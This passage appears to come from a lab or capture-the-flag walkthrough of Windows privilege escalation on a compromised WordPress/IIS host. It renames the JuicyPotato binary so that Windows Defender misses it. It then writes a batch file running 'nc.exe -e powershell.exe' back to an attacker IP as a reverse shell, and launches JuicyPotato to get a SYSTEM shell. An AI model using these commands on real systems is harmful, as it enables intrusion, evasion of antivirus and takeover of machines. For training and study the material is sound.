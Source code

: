 
***NOTE:*** We will have to rename the Juicy Potato executable to
something else, otherwise it will be picked up by Windows Defender.

*From the meterpeter session we can use this command:*
``` shell 
mv  JuicyPotato.exe  js.exe
```


From the reverse shell  on a Windows Machine we can use this command:
``` shell 
rename  JuicyPotato.exe  js.exe
```



Below the executed command
``` shell 
C:\inetpub\wwwroot\wordpress\wp-content\uploads> rename  JuicePotatao.exe  js.exe
Rename JuicePotato.exe js.exe
```





From our shell , we can create a batch file that will be executed by the
exploit, and return a SYSTEM shell . Let's add the following contents to
***shell .bat***:
Below the executed command
``` shell 
echo START C:\inetpub\wwwroot\wordpress\wp-content\uploads\nc.exe -e powershell.exe 10.10.14.2 1111 > shell.bat
```
 
``` shell 
C:\inetpub\wwwroot\wordpress\wp-content\uploads>dir
dir

….
07/13/2020   11:55  AM                              98 shell.bat
….
….
```


Let's start, from another terminal, another netcat listener:
<div style="width:100%; background-color:#252b34;text-align: left;;border: 1px solid black;" ><img width="40%"  src="media/image120.png"></div>


Next, we execute the netcat shell  using the JuicyPotato binary(js.exe):
``` shell 
kali@kali:$ js.exe -t * -p C:\inetpub\wwwroot\wordpress\wp-content\uploads\shell.bat -l 1337
```
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"><img width="50%"  src="media/image121.png"></div>
